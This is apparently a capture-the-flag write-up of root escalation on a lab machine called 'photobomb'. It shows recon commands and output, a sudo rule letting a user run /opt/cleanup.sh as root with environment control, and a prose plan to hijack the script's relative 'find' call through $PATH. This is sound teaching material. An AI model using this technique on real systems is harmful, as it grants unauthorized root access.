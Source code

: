 ### Getting the system flag
We run some basic commands:
```
id
```
Results:
```
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
```
```
echo $SHELL
```
Results:
```
/bin/bash
```
```
uname -a
```
Results:
```
Linux photobomb 5.4.0-126-generic #142-Ubuntu SMP Fri Aug 26 12:12:57 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```
```
sudo -l
```

Results:

```
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

Two interesting things here: 1. Our user can modify environmental variables, and 2. Our user can execute /opt/cleanup.sh as root with no need for a password.
Having a look at the /opt/cleanup.sh file, we can see the command "find" invoked with a relative path:

```
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
Knowing that we can modify environmental variables, we are going to create a find file with execution permissions in our folder, and then we are going to add our folder in the first position of the $PATH environmental variable. With that we will execute /opt/cleanup.sh and escalate to root.
